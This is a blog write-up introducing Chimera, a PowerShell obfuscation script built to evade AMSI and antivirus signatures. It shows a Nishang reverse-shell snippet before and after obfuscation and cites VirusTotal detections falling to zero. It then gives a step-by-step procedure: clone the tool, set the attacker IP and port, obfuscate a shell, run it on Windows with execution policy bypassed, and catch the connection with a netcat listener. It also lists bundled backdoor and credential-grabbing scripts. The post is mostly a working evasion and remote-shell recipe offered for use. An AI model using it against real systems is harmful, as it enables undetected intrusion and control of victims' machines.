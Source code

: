 ```yaml
---
layout: post
title: "Bypass VirusTotal & AMSI Detection Signatures with Chimera"
categories: [publication,write-up]
modified: 2020-09-01
---
```


[Chimera](https://github.com/tokyoneon/Chimera) is a PowerShell obfuscation script designed to bypass Microsoft's AMSI as well as commercial antivirus solutions. It digests malicious PowerShell scripts known to trigger antivirus software and uses simple string substitution and variable concatenation to evade common detection signatures.

![](img/0x10/0x10-03.gif)

Below is a snippet of Nishang's [Invoke-PowerShellTcp.ps1](https://github.com/tokyoneon/Chimera/blob/master/shells/Invoke-PowerShellTcp.ps1), found at [nishang/Shells](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). In the below PowerShell terminal, the attacker is downloading Nishang's script ("shell.ps1") which will invoke a connection to a remote server. When attempting to execute PowerShell scripts in this way, AMSI will use signature-based detection to identify malicious activity. VirusTotal reports [25 detections](https://www.virustotal.com/gui/file/0f1e223eaf8b6d71f65960f8b9e14c98ba62e585334a6349bcd02216f4415868/detection) of the PS1 script and AMSI prevents the attack.

```powershell
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}

#Send back current username and computername
$sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
$stream.Write($sendbytes,0,$sendbytes.Length)

#Show an interactive PowerShell prompt
$sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
$stream.Write($sendbytes,0,$sendbytes.Length)
```

|VirusTotal Detection|AMSI Detection|
|:-:|:-:|
|![](img/0x10/0x10-04.png)|![](img/0x10/0x10-01.png)|


And here's the same snippet, after Chimera. An arbitrary message is printed in the terminal as a connection is established to the attacker's server. VirusTotal reports [0 detections](https://www.virustotal.com/gui/file/74a47198fefa10a8ebb88a8b130259e56a5a9fc4302089ac73009742ba5c98dc/detection) of the obfuscated version and AMSI has no issues executing the script.
```
  # Watched anxiously by the Rebel command, the fleet of small, single-pilot fighters speeds toward the massive, impregnable Death Star.
              $xdgIPkCcKmvqoXAYKaOiPdhKXIsFBDov = $jYODNAbvrcYMGaAnZHZwE."$bnyEOfzNcZkkuogkqgKbfmmkvB$ZSshncYvoHKvlKTEanAhJkpKSIxQKkTZJBEahFz$KKApRDtjBkYfJhiVUDOlRxLHmOTOraapTALS"()
       # As the station slowly moves into position to obliterate the Rebels, the pilots maneuver down a narrow trench along the station’s equator, where the thermal port lies hidden.
          [bYte[]]$mOmMDiAfdJwklSzJCUFzcUmjONtNWN = 0..65535|%{0}
   # Darth Vader leads the counterattack himself and destroys many of the Rebels, including Luke’s boyhood friend Biggs, in ship-to-ship combat.

  # Finally, it is up to Luke himself to make a run at the target, and he is saved from Vader at the last minute by Han Solo, who returns in the nick of time and sends Vader spinning away from the station.
           # Heeding Ben’s disembodied voice, Luke switches off his computer and uses the Force to guide his aim.
   # Against all odds, Luke succeeds and destroys the Death Star, dealing a major defeat to the Empire and setting himself on the path to becoming a Jedi Knight.
           $PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK = ([teXt.enCoDInG]::AsCII)."$mbKdotKJjMWJhAignlHUS$GhPYzrThsgZeBPkkxVKpfNvFPXaYNqOLBm"("WInDows Powershell rUnnInG As User " + $TgDXkBADxbzEsKLWOwPoF:UsernAMe + " on " + $TgDXkBADxbzEsKLWOwPoF:CoMPUternAMe + "`nCoPYrIGht (C) 2015 MICrosoft CorPorAtIon. All rIGhts reserveD.`n`n")
# Far off in a distant galaxy, the starship belonging to Princess Leia, a young member of the Imperial Senate, is intercepted in the course of a secret mission by a massive Imperial Star Destroyer.
            $xdgIPkCcKmvqoXAYKaOiPdhKXIsFBDov.WrIte($PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK,0,$PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK.LenGth)
   # An imperial boarding party blasts its way onto the captured vessel, and after a fierce firefight the crew of Leia’s ship is subdued.
```

|VirusTotal Detection|AMSI Detection|
|:-:|:-:|
|![](img/0x10/0x10-05.png)|![](img/0x10/0x10-02.png)|

Chimera does several things to obfuscate the source. The [transformer function](https://github.com/tokyoneon/Chimera/blob/master/chimera.sh#L403) will separate strings into multiple pieces and reconstruct them as new variables.

For example, it will take a string like `... New-Object System.Net.Sockets.TCPClient ...` and convert it to:

```powershell
$a = "Syste"
$b = "m.Net.Soc"
$c = "kets.TCP"
$d = "Client"

... New-Object $a$b$c$d ...
```

The function separates commonly flagged data types and strings into several chunks. It defines the chunks and concatenates them at the top of the script. A higher `--level` will result in smaller chunks and more variables.

```powershell
$CNiJfmZzzQrqZzqKqueOBcUVzmkVbllcEqjrbcaYzTMMd = "`m"
$quiyjqGdhQZgYFRdKpDGGyWNlAjvPCxQTTbmFkvTmyB = "t`Rea"
$JKflrRllAqgRlHQIUzOoyOUEqVuVrqqCKdua = "Get`s"
$GdavWoszHwDVJmpYwqEweQsIAz = "ti`ON"
$xcDWTDlvcJfvDZCasdTnWGvMXkRBKOCGEANJpUXDyjPob = "`L`O`Ca"
$zvlOGdEJVsPNBDwfKFWpvFYvlgJXDvIUgTnQ = "`Get`-"
$kvfTogUXUxMfCoxBikPwWgwHrvNOwjoBxxto = "`i"
$tJdNeNXdANBemQKeUjylmlObtYp = "`AsC`i"
$mhtAtRrydLlYBttEnvxuWkAQPTjvtFPwO = "`G"
$PXIuUKzhMNDUYGZKqftvpAiQ = "t`R`iN
```


Review the [README](https://github.com/tokyoneon/Chimera), and [USAGE guide](https://github.com/tokyoneon/Chimera/blob/master/USAGE.md) on GitHub for an in-depth look at how Chimera is used. 
```bash
sudo apt-get update; sudo apt-get install -Vy sed xxd libc-bin curl jq perl gawk grep coreutils git #depends
sudo git clone https://github.com/tokyoneon/chimera /opt/chimera #clone the repo
sudo chown $USER:$USER -R /opt/chimera/; cd /opt/chimera/ #permissions
sudo chmod +x chimera.sh; ./chimera.sh --help #print help menu
```


In the [shells/](https://github.com/tokyoneon/Chimera/tree/master/shells) directory are several Nishang scripts and a few generic ones. All have been tested and are working. However, there's no telling how untested scripts will reproduce with Chimera. It's recommended to use only the included shells.
```
/opt/chimera$ ls -laR shells/

shells/:
total 60
-rwxrwx--- 1 user user 1727 Aug 29 22:02 generic1.ps1
-rwxrwx--- 1 user user 1433 Aug 29 22:02 generic2.ps1
-rwxrwx--- 1 user user  734 Aug 29 22:02 generic3.ps1
-rwxrwx--- 1 user user 4170 Aug 29 22:02 Invoke-PowerShellIcmp.ps1
-rwxrwx--- 1 user user  281 Aug 29 22:02 Invoke-PowerShellTcpOneLine.ps1
-rwxrwx--- 1 user user 4404 Aug 29 22:02 Invoke-PowerShellTcp.ps1
-rwxrwx--- 1 user user  594 Aug 29 22:02 Invoke-PowerShellUdpOneLine.ps1
-rwxrwx--- 1 user user 5754 Aug 29 22:02 Invoke-PowerShellUdp.ps1
drwxr-xr-x 2 user user 4096 Aug 30 18:53 misc
-rwxrwx--- 1 user user  616 Aug 29 22:02 powershell_reverse_shell.ps1

shells/misc:
total 36
-rwxrwx--- 1 user user 1757 Aug 12 19:53 Add-RegBackdoor.ps1
-rwxrwx--- 1 user user 3648 Aug 12 19:53 Get-Information.ps1
-rwxrwx--- 1 user user  672 Aug 12 19:53 Get-WLAN-Keys.ps1
-rwxrwx--- 1 user user 4430 Aug 28 23:31 Invoke-PortScan.ps1
-rwxrwx--- 1 user user 6762 Aug 29 00:27 Invoke-PoshRatHttp.ps1
```

Before using the scripts, change the hardcoded IP addresses (`192.168.56.101`) to your Kali address.
```
/opt/chimera$ sed -i 's/192.168.56.101/<YOUR-IP-ADDRESS>/g' shells/*.ps1
```

The default port with all of the scripts is 4444. Use `sed` again to change them if needed.
```
/opt/chimera$ sed -i 's/4444/<YOUR-DESIRED-PORT>/g' shells/*.ps1
```

Use the following command to obfuscate one of the available scripts with Chimera.
```
/opt/chimera$ ./chimera.sh -f shells/Invoke-PowerShellTcp.ps1 -o /tmp/chimera.ps1 -g -v -t -j -i -c -h -s -b -e

 _____________________________________________________

  ░░░░░░ ░░   ░░ ░░ ░░░    ░░░ ░░░░░░░ ░░░░░░   ░░░░░
 ▒▒      ▒▒   ▒▒ ▒▒ ▒▒▒▒  ▒▒▒▒ ▒▒      ▒▒   ▒▒ ▒▒   ▒▒
 ▓▓      ▓▓▓▓▓▓▓ ▓▓ ▓▓ ▓▓▓▓ ▓▓ ▓▓▓▓▓   ▓▓▓▓▓▓  ▓▓▓▓▓▓▓
 ██      ██   ██ ██ ██  ██  ██ ██      ██   ██ ██   ██
  ██████ ██   ██ ██ ██      ██ ███████ ██   ██ ██   ██
 _____________________________________________________

 ░ by @tokyoneon_
```


In a new terminal, start a Netcat listener to receive incoming connections. Be sure to use `-v` as some of the scripts don't produce a shell prompt when a new connection is established. Move the `/tmp/chimera.ps1` file to a local Windows 10 machine. Then, open a PowerShell terminal and execute the file with the following command.
```powershell
PS> powershell.exe -ep bypass C:\path\to\chimera.ps1
```

Back in Kali, the `nc` terminal will produce the following output — with no complaints from AMSI.
```
~$ nc -v -l -p 4444

listening on [any] 4444 ...
192.168.56.105: inverse host lookup failed: Host name lookup failure
connect to [192.168.56.107] from (UNKNOWN) [192.168.56.105] 49725
Windows PowerShell running as user  on
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\target>
```

---

{{site.wht_credit}}







